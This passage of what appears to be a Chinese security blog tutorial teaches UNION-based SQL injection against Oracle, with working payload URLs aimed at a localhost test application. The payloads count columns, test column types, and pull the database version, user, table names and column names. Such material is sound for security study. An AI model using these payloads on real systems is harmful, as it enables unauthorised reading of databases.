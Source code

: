 获取表，all_tables类似于MySQL中的information_schema.tables，里面的结构可以自己构造sql语句。
```sql
SELECT * FROM all_tables;
```
![image](https://y4er.com/img/uploads/20200318213870.png)

获取字段名
```sql
SELECT column_name FROM all_tab_columns
```
![image](https://y4er.com/img/uploads/20200318210974.png)

在Oracle启动时，在 userenv 中存储了一些系统上下文信息，通过 SYS_CONTEXT 函数，我们可以取回相应的参数值。包括当前用户名等等。
```sql
SELECT SYS_CONTEXT（'USERENV'，'SESSION_USER'） from dual;
```
更多可用参数说明可以查阅 Oracle 提供的文档：[SYS_CONTEXT](https://docs.oracle.com/cd/B19306_01/server.102/b14200/functions165.htm)

## 注入类型
### 联合查询
order by 猜字段数量，union select进行查询，需要注意的是每一个字段都需要对应前面select的数据类型(字符串/数字)。所以我们一般先使用null字符占位，然后逐位判断每个字段的类型，比如：
```sql
http://localhost:8080/oracleInject/index?username=admin' union select null,null,null from dual -- 正常
http://localhost:8080/oracleInject/index?username=admin' union select 1,null,null from dual -- 正常说明第一个字段是数字型
http://localhost:8080/oracleInject/index?username=admin' union select 1,2,null from dual -- 第二个字段为数字时错误
http://localhost:8080/oracleInject/index?username=admin' union select 1,'asd',null from dual -- 正常 为字符串 依此类推
```
查数据库版本和用户名
```
http://localhost:8080/oracleInject/index?username=admin' union select 1,(select user from dual),(SELECT banner FROM v$version where banner like 'Oracle%25') from dual -- 
```
查当前数据库
```
http://localhost:8080/oracleInject/index?username=admin' union select 1,(SELECT global_name FROM global_name),null from dual -- 
```
查表，wmsys.wm_concat()等同于MySQL中的group_concat()，在11gr2和12C上已经抛弃，可以用LISTAGG()替代
```
http://localhost:8080/oracleInject/index?username=admin' union select 1,(select LISTAGG(table_name,',')within group(order by owner)name from all_tables where owner='SYSTEM'),null from dual -- 
```
![image](https://y4er.com/img/uploads/20200318212695.png)
但是LISTAGG()返回的是varchar类型，如果数据表很多会出现字符串长度过长的问题。这个时候可以使用通过字符串截取来进行。

查字段
```
http://localhost:8080/oracleInject/index?username=admin' union select 1,(select column_name from all_tab_columns where table_name='TEST' and rownum=2),null from dual -- 
```

